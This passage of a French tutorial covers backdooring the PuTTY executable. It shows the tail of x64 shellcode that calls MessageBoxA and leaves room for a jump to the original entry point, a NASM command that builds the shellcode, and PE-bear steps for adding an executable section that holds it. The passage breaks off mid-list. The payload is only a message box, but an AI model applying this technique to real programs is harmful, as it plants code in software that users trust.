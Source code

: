 ```
    jb find_msgbox

found_msgbox:
    movzx edx, word [r9 + rdx*2] ; Récupérer l'ordinal
    mov edx, [r10 + rdx*4]       ; Charger l'adresse de la fonction
    add rax, rdx                 ; Convertir en adresse absolue

    ; Avant l'appel de MessageBoxA
    sub rsp, 40  ; Aligner la pile pour la convention d'appel x64

    ; Appel de MessageBoxA
    xor rcx, rcx               ; hWnd = NULL
    lea rdx, [rel message]     ; Charger l'adresse du message
    lea r8, [rel title]        ; Charger l'adresse du titre
    mov r9d, 0                 ; uType = 0 (OK button only)
    call rax                   ; Appeler MessageBoxA

    ; Après l'appel de MessageBoxA
    add rsp, 40  ; Restaurer la pile
    db 0x00, 0x00, 0x00, 0x00, 0x00  ;Place necessaire pour le jump vers le veritable entrypoint

```


## Compilation avec NASM

On va compiler avec **NASM** :  

```
nasm -f bin test.asm -o shellcode.bin
```

Notez que celui-ci est compilé en **BIN** et non pas en **x64** pour éviter toutes les définitions de variables.  
Maintenant, on a un shellcode qui va ouvrir une **MessageBoxA** en format **binaire**.  
Mais là, on ne peut rien en faire.  

---

## Backdoorer le programme

On va enfin **backdoorer** le programme.  

1. Ouvrir **PE-BEAR** et charger **Putty** à l’intérieur.  
2. **Clic droit** dans **Sections** → **Add section**  
3. Choisir un nom, ici `.newcode`  
4. Choisir le **shellcode.bin** que l'on vient de créer  
5. Bien cocher :  
   - ✅ **Read**  
   - ✅ **Execute**  
   - ✅ **Write**  
6. Les tailles **raw** sont directement définies grâce à **PE-BEAR**.  
7. 